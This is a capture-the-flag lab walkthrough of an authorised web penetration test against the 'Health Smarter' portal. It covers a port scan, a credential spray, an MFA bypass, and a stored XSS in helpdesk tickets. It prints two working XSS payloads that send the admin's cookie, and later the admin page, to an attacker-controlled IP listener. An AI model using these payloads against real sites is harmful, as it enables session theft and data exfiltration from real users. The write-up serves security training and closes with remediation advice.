










In this walkthrough, we will be compromising Health Smarter, a medium-difficulty web application lab from Hack Smarter Labs. A RustScan sweep turns up SSH on port 22 and a Node.js Express portal on 80, and since SSH takes only a key, the portal is the way in. Spraying the lab's breached credential lists against the login form lands a valid account, `m.thompson`, but the login stops at an MFA prompt. A directory scan maps the portal's pages, including a dashboard and a restricted admin page. The session is authenticated before the MFA code is entered, so we drop the MFA request and load the dashboard for the first flag. The admin page stays out of reach, but the helpdesk tickets are reviewed by an admin. A stored XSS payload filed in a ticket runs in that admin's session, fetches the admin page, and sends it back to us for the final flag.


Created by: [Tyler Ramsbey](https://www.hacksmarter.org/courses/4ad11d75-aefa-4b81-8f4e-8aba6bdc53b7)

Let's get started.

## Objective

Health Smarter is releasing a new portal for patients and employees to manage appointments and healthcare data. You have been hired to perform a full web application penetration test against this portal. Identify all vulnerabilities and demonstrate impact by gaining access to the admin portal (if possible).

After searching for breached credentials on DeHashed, you have identified a list of potential usernames and passwords, which are given in the lab.

## Scope

**Target:** `10.1.195.178`

## RustScan

We start with [RustScan](https://github.com/bee-san/RustScan) to find the open ports quickly. It hands them straight to Nmap, which identifies service versions with `-sV` and runs the default script set with `-sC` to pull banners, certificates, and other details.

```
rustscan -a 10.1.195.178 -- -sC -sV
```

```
PORT   STATE SERVICE REASON         VERSION
22/tcp open  ssh     syn-ack ttl 62 OpenSSH 9.6p1 Ubuntu 3ubuntu13.16 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 1a:a8:d4:63:74:12:9b:9c:d7:b6:09:2c:44:90:4b:cd (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBJ1MOk4Swd+ctArgASyHpdH+19k8niN4xFGU6V3d/RxSMgRndEQEET6Hk1UTm8RntmTR2d9em5cDBJsNf2H0eQA=
|   256 aa:04:19:cd:6f:b1:ef:06:fa:1d:d8:77:86:40:0a:29 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIHJIs4YE4VlORwIHIOucwg2939Vds9WFOPMs0Dp6L4Tb
80/tcp open  http    syn-ack ttl 62 Node.js Express framework
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
| http-title: Enterprise Portal Login | Health Smarter
|_Requested resource was /login.html
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```



*RustScan handing the two open ports to Nmap: SSH on 22 and a Node.js Express portal on 80*

Two ports answer. SSH is OpenSSH 9.6p1, and the HTTP service on 80 is a Node.js Express portal titled Enterprise Portal Login that redirects to `/login.html`. Let's check whether SSH takes a password before we turn to the web app.

```
ssh root@10.1.195.178
```

```
root@10.1.195.178: Permission denied (publickey).
```



*SSH refuses password login and requires a key, closing that path*

SSH requires a key, so we set it aside and focus on the web application.

## HTTP (Port 80)

We browse to `http://10.1.195.178` and land on the Enterprise Portal Login page for Health Smarter.



*Health Smarter enterprise portal login served at /login.html*

The lab supplies the breached DeHashed data as two lists, `usernames.txt` and `passwords.txt`, so we spray them against the login form with [Caido](https://caido.io), a web proxy. One pair comes back valid.

```
m.thompson@healthsmarter.hsm:Care4All!
```



*Caido: a single valid login surfaces for m.thompson after spraying the breached lists*

That gives us the one pair from the lists that works. Logging in with it, the portal immediately prompts for a six-digit MFA code. The code expires after about thirty seconds, too short a window to brute force.



*Six-digit MFA prompt blocking the login after valid credentials*

The endpoints are named like `/login.html` and `/mfa.html`, which points at a Node.js app serving flat HTML pages. We run feroxbuster to brute-force directories and files, adding `html` and `js` extensions.

```
feroxbuster -u http://10.1.195.178/ -w /usr/share/seclists/Discovery/Web-Content/raft-large-directories.txt -x html,js
```

```
404      GET       10l       15w        -c Auto-filtering found 404-like response and created new filter; toggle off with --dont-filter
302      GET        1l        4w       33c http://10.1.195.178/ => http://10.1.195.178/login.html
403      GET        1l        3w       23c http://10.1.195.178/admin.html
301      GET       10l       15w      153c http://10.1.195.178/css => http://10.1.195.178/css/
200      GET      326l      742w     7034c http://10.1.195.178/css/style.css
200      GET       91l      248w     3663c http://10.1.195.178/login.html
403      GET        1l        3w       23c http://10.1.195.178/Admin.html
403      GET        1l        3w       23c http://10.1.195.178/ADMIN.html
302      GET        1l        4w       33c http://10.1.195.178/dashboard.html => http://10.1.195.178/login.html
302      GET        1l        4w       33c http://10.1.195.178/Dashboard.html => http://10.1.195.178/login.html
302      GET        1l        4w       33c http://10.1.195.178/mfa.html => http://10.1.195.178/login.html
[####################] - 6m    373710/373710  0s      found:10      errors:0
[####################] - 6m    186846/186846  566/s   http://10.1.195.178/
[####################] - 5m    186846/186846  566/s   http://10.1.195.178/css/
```



*feroxbuster surfacing admin.html returning 403 and dashboard.html redirecting to login*

Three endpoints stand out. `admin.html` returns 403 outright, while `dashboard.html` and `mfa.html` redirect to `/login.html`, so they sit behind a session cookie feroxbuster is not sending.

## Access as m.thompson

Watching the login flow in Caido shows the portal sets a session cookie the moment we submit valid credentials, before the MFA code is ever entered.



*Caido: the login response sets a session cookie before the MFA step, the gap the bypass relies on*

If the dashboard gates on a valid session rather than on MFA completion, we never need the code. We log in, intercept the request to `/mfa.html` in Caido and drop it, then navigate to `/dashboard.html` in the browser.

The dashboard loads as `m.thompson`, and the first flag is on it.



*Dashboard loaded as m.thompson after dropping the MFA request, first flag redacted*

## Admin Portal Access

As `m.thompson` we request `/admin.html` directly, but the portal refuses our session with an access-denied message. The dashboard does tell us where a submitted ticket ends up, though:

```
If you need to update your address, phone number, or request medical records, please submit a request to the admin staff using the helpdesk ticketing portal on the side.
```

An admin reviewing those tickets is the opening for stored XSS. If we get script into a ticket, it runs in the admin's browser when they open it. We start a Python HTTP server to catch whatever the payload sends back.

```
python3 -m http.server 8000
```

Then we file a ticket carrying a cookie-stealing payload.

```
<script>fetch('http://10.200.83.145:8000/?c='+encodeURIComponent(document.cookie))</script>
```

The admin opens the ticket and the callback lands, but the cookie value comes back empty.

```
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
10.1.195.178 - - [30/Aug/2026 20:51:51] "GET /?c= HTTP/1.1" 200 -
10.1.195.178 - - [30/Aug/2026 20:51:52] "GET /?c= HTTP/1.1" 200 -
```



*Python server receiving the XSS callback with no cookie value attached*

To see why, we pull the `Set-Cookie` header from the login response:

```
Set-Cookie: connect.sid=<redacted>; Path=/; Expires=Mon, 31 Aug 2026 01:35:23 GMT; HttpOnly
```

The session cookie carries the HttpOnly flag, so JavaScript cannot read it. Stealing the session that way is off the table.

HttpOnly stops us reading the cookie, but the script still runs in the admin's origin with the admin's session attached to every request it makes. So instead of stealing the session, we borrow it: the payload has the admin's browser fetch `/admin.html`, the page our own account is refused, and beacon the response back to us. The fetch is same-origin, so the browser attaches the admin's session automatically and the server returns the page.

```
<script>
(async () => {
  const html = await fetch("/admin.html").then(r => r.text());
  new Image().src = `http://10.200.83.145:8000/?p=${encodeURIComponent(html)}`;
})();
</script>
```

We file the payload in a ticket, and when the admin opens it their browser pulls `admin.html` and sends the encoded page to our server.

```
10.1.195.178 - - [30/Aug/2026 20:56:04] "GET /?p=%3C!DOCTYPE%20html%3E%0A%3Chtml%20lang%3D%22en%22%3E ... HTTP/1.1" 200 -
```

We drop the captured response into [CyberChef](https://gchq.github.io/CyberChef/) and URL-decode it, and the admin portal renders in full, second and final flag included.



*The exfiltrated admin portal decoded, with the Administrative Flag section reached and its value redacted*

## Final Thoughts

I went in expecting to fight a six-digit code and the bypass came down to dropping the request to `/mfa.html`. The exfiltration was the better problem. `document.cookie` came back empty because the session cookie is `HttpOnly`. That looked like a dead end until I stopped trying to steal the session and used it instead. The payload was already running in the admin's browser.

`m.thompson`'s password was sitting in a public breach dump and still worked. Exposed credentials have to be rotated, and new ones screened against those dumps at login. MFA has to be enforced server-side on every protected route, with no session authenticated until the code is verified. `admin.html` escapes every ticket field except `message`, and that field needs the same output encoding as the rest. A Content-Security-Policy restricting outbound requests would have stopped the beacon as well.

— 0xB1rd
